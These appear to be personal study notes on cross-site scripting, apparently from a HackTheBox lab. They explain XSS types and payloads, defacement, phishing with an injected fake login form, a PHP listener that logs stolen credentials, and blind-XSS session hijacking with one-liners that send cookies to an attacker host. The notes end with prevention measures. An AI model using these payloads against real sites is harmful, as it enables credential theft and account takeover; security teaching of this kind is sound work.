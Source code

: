 # Cross-Site Scripting (XSS)

- XSS exploits flaws in user input sanitization and allow for injected scripts to be executed client-side.
- Improper user input sanitization → JS code injection → Client-side execution
- XSS can facilitate a wide range of attacks
    - Anything that can be executed through browser JavaScript code
- XSS executes JS within a browser; therefore is limited to the browser's JS engine

<aside>
📝

Note: XSS can only affect user executing injected script client-side

*XSS has lower impacts on the wen server’s backend*

</aside>

Some XSS Attacks

- Tricking user’s browser into unwilling sending their session cookie to attacker’s C2 server
- Tricking a browser  to execute malicious API calls
    - Like changing the user's password
- Displaying ads
- Bitcoin Mining
- Heap overflow in Chrome
    - JS payload can exploit a binary vulnerability in a browser itself
    - Enables sandbox escape → machine-level executions

# **Types of XSS**

- Stored XSS
    - Persistent
    - User input is stored in backend database
    - That input is displayed upon retrieval by anyone visiting site
    - Most dangerous
- Reflected XSS
    - Non-Persistent
    - User input is displayed (reflected) after processed by backend server
        - JS code returns and the browser or website executes it
    - Never stored on server backend database
- DOM-Based XSS
    - Non-Persistent
    - User input is completely processed client-side
    - Never reaches backend server
    - DOM is client-side only
        - JS used to change page source through [Document Object Model (DOM)](https://www.notion.so/XXS-2636c31c8f4a803ab403f099f2fb27d0?pvs=21)

## **Proof of Concepts**

Use `<script>alert(window.origin)</script>` instead of `<script>alert(1)</script>`

- Alert box would reveal URL executing the JS code

`<plaintext>`

- A single HTML tag
- Makes browser stop rendering HTML following the tag

`<script>print()</script>`

- Pops up the browser’s print dialog
- Least likely to be blocked by browsers

`<script>alert(document.cookie)</script>`

- Puts cookies in an alert box

### Targeting with Reflected XSS

- Check URL parameters
- Not stored in web server so
    - Deceive victim into sending URL containing XSS parameters themselves
    - Example: `http://example.com/index.php?id=<script>alert(1)<%2Fscript>`

### Exploiting DOM-Based XSS

- Unlike Stored or Reflected, no actual web requests are made and nothing is shown in page source
    - We see #(fragment) in URL instead; used to identify a section in document/page
    - User input only seen in Web Inspector (Inspect Element option)
- We can still trick victim into entering a URL with a DOM-Based XSS payload

`Source` &`Sink`

- “Source” refers to JS object taking user input
    - Can be input parameters
- “Sink” refers to JS function that writes user input into a DOM object on the page
    - This is where lack of sanitization can lead to XSS
    - Common JS “sink” functions:
        - `document.write()`
        - `DOM.innerHTML`
        - `DOM.outerHTML`
    - Common jQuery “sink” functions:
        - `add()`
        - `after()`
        - `append()`

Example (web app source code; not visible client-side)

```jsx
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
```

- `task=` is the “source” and takes a URL parameter

```jsx
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

- Page uses `innerHTML` function to write `task` into the DOM named `todo`

### DOM-Based XSS Payload

- `innerHTML` does NOT allow for `<script>` tag
- The following payload will be allowed if user input is not sanitized:

**`<img src="" onerror=alert(window.origin)>`**

- `onerror` attribute tells JS to do the following if `img` is not found
- Because `src` if `img` is empty, error will occur
    - Causing the execution of `alert(window.origin)`

# **XSS Discovery & Exploitation**

<aside>
🚧

*XSS can be injected into any input in the HTML page*

*Not exclusive to HTML input fields*

*May also be in HTTP headers (if values are displayed in page): Cookie ,User-Agent, etc.*

</aside>

Scanners like Nessus, Burp Pro, and ZAP have two scan types:

1. Passive Scan
    - Reviews client-side code for DOM-based vulns
2. Active Scan
    - Sends all types of payloads to detect Stored and Reflected XSS
    - Checks page source to verify successful exploits

## Open-Source Tools

- [XSS Strike](https://github.com/s0md3v/XSStrike)
    - `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`
    - This tool will automatically identify vulnerable parameters
- [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS)
- [XSSer](https://github.com/epsylon/xsser)

## Payloads

Online list of payloads:

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [Payload Box](https://github.com/payloadbox/xss-payload-list)

Write your own Python script to automate sending these payloads

# **XSS Attacks In-Depth**

## Defacing

- Changing how a website looks for anyone visiting the website
- Common for hacker groups to prove themselves

Common HTML elements used:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

Example Payloads:

`<script>document.body.style.background = "#ff0000"</script>`

- Makes page background red

`<script>document.title = 'You been hacked kekw'</script>`

- Changes title of the page
- Usually just changes the text appearing in browser tab

Removing an HTML element:

`web.com/form.php?id=document.getElementById('html element').remove()`

- add `<!--` to the end of entire payload to comment out the rest of the HTML
    - Remove any parenthesis right before the comment tag

### **Changing Page Text**

*Wrap these payloads around the <script> tag*

Using the `innerHTML` property:

`document.getElementById("DOM or HTML_element").innerHTML = "hacked lol"`

Using the jQuery functions:

`$("#DOM or HTML_element").html('hacked lol');`

Specific Example:

`document.getElementsByTagName('body')[0].innerHTML = "hacked lol”`

- Changing the entire body element
- [0] = first body element of that page

### Defacing 101

1. Prepare HTML code you want to display

```html
<center>
    <h1 style="color: white; background-color: black">hacked lol</h1>
    <p style="color: white; background-color: black">fire your devs
        <img src="https://upload.wikimedia.org/wikipedia/en/7/73/Trollface.png" height="25px" alt="trollface">
    </p>
</center>
```

1. Wrap it around your payload of choice

`<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 "color: white; background-color: black">hacked lol</h1><p style="color: white; background-color: black">fire your devs <img src="https://upload.wikimedia.org/wikipedia/en/7/73/Trollface.png" height="25px" alt="trollface"> </p></center>'</script>`

1. Download website HTML/source and try it locally first
2. Inject

Before:

![image.png](Cross-Site%20Scripting%20(XSS)%2026f6c31c8f4a8008a69dccf01c00d343/image.png)

After:

![image.png](Cross-Site%20Scripting%20(XSS)%2026f6c31c8f4a8008a69dccf01c00d343/image%201.png)

## Phishing

- XSS to inject fake login form
- User input is sent to attacker’s server

Fake login form example:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

- Then wrap this around `document.write();` and inject into vulnerable URL parameter

Removing an HTML element:

`web.com/form.php?id=document.getElementById('html element').remove()`

- add `<!--` to the end of entire payload to comment out the rest of the HTML
    - Remove any parenthesis right before the comment tag

### **Credential Stealing**

Need to set up an HTTP listener to receive data from the fake form

Simple listener with Netcat:

```bash
sudo nc -lvnp 80
```

Setting up a PHP listener server to avoid error messages for victim:

1. Create the php code

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
//name it index.php
```

1. Start the server

```bash
mkdir /server/path
cd /server/path
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80

output:	PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

For the HTB lab, this is my final payload

`http://10.129.73.8/phishing/index.php?url=document.write('<h3>Please+login+to+continue<%2Fh3><form+action%3Dhttp%3A%2F%2F10.10.15.106><input+type%3D"username"+name%3D"username"+placeholder%3D"Username"><input+type%3D"password"+name%3D"password"+placeholder%3D"Password"><input+type%3D"submit"+name%3D"submit"+value%3D"Login"><%2Fform><!--`

## Session Hijacking

*Stealing a user’s session cookie to gain access without knowing victim’s credentials (aka Cookie Stealing attack)*

### Blind XSS Detection

*When vulnerability is triggered on a page we don't have access to*

Examples:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

Whether or not the field is vulnerable, the same output appears

![image.png](Cross-Site%20Scripting%20(XSS)%2026f6c31c8f4a8008a69dccf01c00d343/image%202.png)

**XSS payloads needs to send back an HTTP request to our attacker sever**

(out of band)

Loading a Remote Script:

`<script src="http://OUR_IP/script.js"></script>`

### Basic Session Hijacking

1. **Find a vulnerable input field through Blind XSS**
    
    
    URL Parameter payload for testing vulnerability:
    
    - This is all one line, injected as parameter input
    
    ```html
    <script src=http://OUR_IP></script>
    '><script src=http://OUR_IP></script>
    "><script src=http://OUR_IP></script>
    javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
    <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script>
    ```
    

Setup a listener on attack side:

```bash
nc -lvnp 8080
sudo php -S 0.0.0.0:80
```

Output of a successful field:

![image.png](Cross-Site%20Scripting%20(XSS)%2026f6c31c8f4a8008a69dccf01c00d343/image%203.png)

*The payload made the vulnerable field send a request back to our IP*

1. **Exploit the vulnerable field**
    
    
    File payload for grabbing session cookie:
    
    ```jsx
    document.location='http://OUR_IP/index.php?c='+document.cookie;
    	//or//
    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
    ```
    
    - Using the URL parameter payload from step 1, it will grab a js script file from attacker http server containing any of these one-liners
    
    - Make sure to set up the listener/http server
    
    Call the js script on attack server with this URL parameter payload:
    
    ```jsx
    "><script src=http://OUR_IP/script.js></script>
    ```
    
2. Use the stolen cookie
    - Using browser dev tools, cUrl, and other ways to change cookie header
    - We can impersonate the victim by setting our cookie header to theirs’

# Preventing XSS

*The most reliable countermeasure:*

**CODE REVIEW**

- Manually review both frontend and backend code
- Some vulnerabilities are missed in automated vulnerability assessment tools

### **Frontend solutions**

Input Validation

Implementation Example:

```jsx
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```

- Regex validation of user input

**Input Sanitization**

Implementation Example:

```jsx
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

- Using DOMPurify
- Escapes special characters like backslashes

**Direct Input**

- Never accepts user input directly within certain tags:
    - JavaScript code `<script></script>`
    - CSS Style Code `<style></style>`
    - Tag/Attribute Fields `<div name='INPUT'></div>`
    - HTML Comments `<!-- -->`

**Do Not Use**

- Avoid these JS functions:
    - `DOM.innerHTML`
    - `DOM.outerHTML`
    - `document.write()`
    - `document.writeln()`
    - `document.domain`
- Avoid these jQuery functions:
    - `html()`
    - `parseHTML()`
    - `add()`
    - `append()`
    - `prepend()`
    - `after()`
    - `insertAfter()`
    - `before()`
    - `insertBefore()`
    - `replaceAll()`
    - `replaceWith()`

These functions that allow changing raw text of HTML fields

### **Backend solutions**

**Input Validation**

Implementation Example:

```jsx
if (filter_var($_GET['email'], FILTER_VALIDATE_EMAIL)) {
    // do task
} else {
    // reject input - do not display it
}
```

- Matching input with PHP

**Input Sanitization**

- Using libraries for input sanitization
- `addslashes` php function escapes special characters with backslashes

**Output HTML Encoding**

- Encodes data before sending to browser for display
- Encoding special characters into HTML codes (e.g. `<` into `&lt;`)

**Server Configuration**

- Using HTTPS across the entire domain.
- Using XSS prevention headers.
- Using the appropriate Content-Type for the page, like `X-Content-Type-Options=nosniff`.
- Using `Content-Security-Policy` options, like `script-src 'self'`, which only allows locally hosted scripts.
- Using the `HttpOnly` and `Secure` cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.

Lastly, 

**Set up a Web Application Firewall (WAF)**